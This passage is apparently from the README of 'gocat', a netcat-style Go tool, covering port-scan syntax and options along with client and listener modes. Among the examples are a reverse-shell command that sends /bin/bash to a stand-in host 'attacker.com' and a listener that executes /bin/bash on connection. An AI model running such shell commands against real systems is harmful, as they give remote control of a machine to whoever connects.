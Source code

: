```bash
# Basic port scan
gocat scan <host> <ports>

# Examples
gocat scan example.com 80
gocat scan 192.168.1.1 22,80,443
gocat scan 10.0.0.1 1-1000
gocat scan localhost 8000-9000
```

#### Scan Options

- `-t, --timeout DURATION` - Scan timeout per port (default: 3s)
- `-c, --concurrent COUNT` - Concurrent scans (default: 100)
- `-u, --udp` - Scan UDP ports
- `-T, --tcp` - Scan TCP ports (default)
- `-A, --all` - Scan both TCP and UDP
- `-v, --verbose` - Show closed ports too
- `-q, --quiet` - Only show open ports

---

## 🔗 Connection Modes

### Client Mode (Connect)

Connect to a remote service:

```bash
# HTTP request
echo "GET / HTTP/1.1\r\nHost: example.com\r\n\r\n" | gocat connect example.com 80

# SSH-like connection
gocat connect -s /bin/bash server.example.com 22

# Reverse shell
gocat connect -s /bin/bash attacker.com 4444
```

### Server Mode (Listen)

Wait for incoming connections:

```bash
# Simple listener
gocat listen 8080

# Execute command on connection
gocat listen -e /bin/bash 8080

# Interactive shell
gocat listen -i 8080

# Local interactive (with history)
gocat listen -l 8080
```
